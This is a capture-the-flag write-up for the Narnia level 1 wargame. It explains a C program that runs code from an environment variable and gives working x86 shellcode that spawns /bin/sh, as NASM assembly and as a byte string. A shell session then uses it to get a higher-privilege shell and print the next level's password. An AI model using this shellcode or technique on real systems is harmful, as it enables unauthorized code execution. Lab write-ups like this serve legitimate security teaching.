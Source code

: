 Let's clarify that with the source code.

```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```

Here, the code will execute anything we put in the **EGG** environment variable, we only need to find a shellcode and set the **EGG** variable. I used a random shellcode from the [Exploit Database](https://www.exploit-db.com/exploits/44594).

```nasm
; https://www.exploit-db.com/exploits/44594
section .text
global _start

_start:
    xor ecx, ecx
    mul ecx
    push ecx
    mov edi, 0x978CD0D0
    mov esi, 0x91969DD0
    not edi
    not esi
    push edi
    push esi
    mov ebx, esp
    mov al, 0xb
    int 0x80
```

Here is the shellcode :

```text
\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80
```

Now, let's export it as an environment variable an re-execute the program.

```bash
narnia1@narnia:/narnia$ export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
nairiepecu
```
